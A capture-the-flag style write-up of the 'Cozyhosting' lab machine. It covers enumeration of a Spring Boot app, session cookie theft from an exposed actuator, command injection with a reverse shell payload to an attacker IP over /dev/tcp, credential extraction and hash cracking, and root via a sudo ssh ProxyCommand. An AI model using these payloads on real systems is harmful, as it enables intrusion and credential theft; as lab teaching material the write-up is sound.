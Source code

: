 # Cozyhosting Machine

## Service Enumeration

Once the open ports are known, the services enumeration process begins. In order to do this, Nmap tool is used and, specifically the following command: ```sudo nmap -sS -p22,80 -sV -O -sC cozyhosting.htb``` 
 
![image](images/Cozyhosting/Imagen2.png)

### HTTP Enumeration

The first step taken was to scan using gobuster in order to find directories and other func-tions in the service. The command used was ```sudo gobuster dir -u http://cozyhosting.htb/ -w /usr/share/wfuzz/wordlist/general/common.txt”```.
 
![image](images/Cozyhosting/Imagen3.png)

First thing to do is to manually check the findings. 

When accessing “admin” page, a redirection to “login” is found.
 
![image](images/Cozyhosting/Imagen4.png)

The “error” page gives more information as let us guess the type of application that is run-ning in the background. This is because “Whitelabel Error Page” is the default error page for Spring Boot applications.
 
![image](images/Cozyhosting/Imagen5.png)

Taking the last into account, a new directory scan will be made but this time using a Spring Boot dictionary (obtained form https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content/spring-boot.txt). 
Command used is ```sudo gobuster dir -u http://cozyhosting.htb/ -w /home/corso/Desktop/wordlists/SecLists-master/Discovery/Web-Content/spring-boot.txt```.

 
![image](images/Cozyhosting/Imagen6.png)

As shown in the previous picture, Spring Boot actuators are found. Sessions and Mappings actuators stand out because they give very useful information.
In ```/actuator/mappings``` we can see the different endpoints available in the application. Among them, ```/executessh``` seems to be interesting.
 
![image](images/Cozyhosting/Imagen7.png)

Sessions’ actuator shows what seems to be a session cookie for the user Kanderson. If user “Kanderson” has rights to access the Admin page, it may be possible to use his session cookie and access on his behalf. 

 
![image](images/Cozyhosting/Imagen8.png)
 
![image](images/Cozyhosting/Imagen9.png)

Once the cookie is set, it is possible to access the Admin Dashboard.  

![image](images/Cozyhosting/Imagen10.png)

Looking through the Admin dashboard, there is an interesting functionality that lets the user configure an arbitrary host for automatic patching through SSH. As expected, it uses the ```/executessh``` endopoint that stood out during the ```/actuator/mappings``` enumeration.
 
![image](images/Cozyhosting/Imagen11.png)

Inserting two random values as ```hostname=localhost``` and ```username=kanderson``` generates a POST request to ```/executessh``` that results in a “Host key verification failed” error.
 
![image](images/Cozyhosting/Imagen12.png)
 
![image](images/Cozyhosting/Imagen13.png)

The way the errors are thrown are suspicious as it seems to be the output of a shell com-mand. In order to generate more errors, I inserted some special characters to see if it is possible to inject some commands.

The error shown after inserting ```hostname=localhost&username=hello;id;```, was a clear indication that host may be vulnerable to command injection.
 
![image](images/Cozyhosting/Imagen14.png)
 
![image](images/Cozyhosting/Imagen15.png)

The fact that the error says ```@localhost: command not found``` let us know that the command executed on the backend is something like ```ssh [some_options] <username>@<hostname>``` and if “;” is inserted on the username parameter the ssh command will fail as it will not correctly receive the hostname parameter (because the server will consider everything after “;” as a new command).

It was also confirmed that front end did not allow blank spaces on the username parameter.
 
![image](images/Cozyhosting/Imagen16.png)

After some trials, it was found that appending ```%0A<command_to_execute_without_spaces>;``` let us execute commands on the server.
In order to check the execution, a 404 HTTP GET request will be performed against a web server running on my machine.
 
![image](images/Cozyhosting/Imagen17.png)
 
![image](images/Cozyhosting/Imagen18.png)

## Initial Access – Command Injection

**Vulnerability Explanation**: misconfigured Spring Boot application that exposes other users’ session cookies has a insecure function “/executessh” where it is possible to inject com-mands to open a reverse shell.
**Vulnerability Fix**: securely store session cookies and correctly sanitize user input on “/executessh” function.
**Severity**: Critical
**Steps to reproduce the attack**: 

•	Access “/actuator/sessions” and grab session cookie for user “kanderson”.

•	Setup a listener on port 444.

•	Using that cookie access the Admin dashboard and insert on username parameter: kanderson@%0A(sh)0>/dev/tcp/10.10.14.10/444;a
 
![image](images/Cozyhosting/Imagen19.png)

•	Insert “exec >&0” on the recently opened shell.
 
![image](images/Cozyhosting/Imagen20.png)

## Post Exploitation.

After gaining initial access, a veri interesting file is  found called “cloudhosting-0.0.1.jar”
 
![image](images/Cozyhosting/Imagen21.png)

After downloading the file and manually inspecting it, some credentials for PostgreQL data-base are found inside a file called “application.properties”.
 
![image](images/Cozyhosting/Imagen22.png)

This password let me access the postgresql database using the command ```psql -U post-gres -h localhost```.
 
![image](images/Cozyhosting/Imagen23.png)

More credentials are found inside “Users” table.
 
![image](images/Cozyhosting/Imagen24.png)

Using hashcat and rockyou dictionary it is possible to crack the hash for user Admin.
 
![image](images/Cozyhosting/Imagen25.png)

Once this password is recovered, it is possible to access the target machine through SSH as the password was reused and is the same password for user local user josh.
 
![image](images/Cozyhosting/Imagen26.png)

## Privilege Escalation – Insecure Sudo Permissions

**Vulnerability Explanation**: After establishing a foothold on target, Cosme noticed that the user has permissions to execute “ssh *” as a super user. This configuration let a user with-out privileges spawn a root shell.
**Vulnerability Fix**: avoid using wildcards when establishing the sudo permissions for a user.
**Severity**: Critical
**Steps to reproduce the attack**: execute “sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x”
**Screenshot**:
 
![image](images/Cozyhosting/Imagen27.png)

## Post-Exploitation

System Proof Screenshot:

![image](images/Cozyhosting/Imagen28.png)
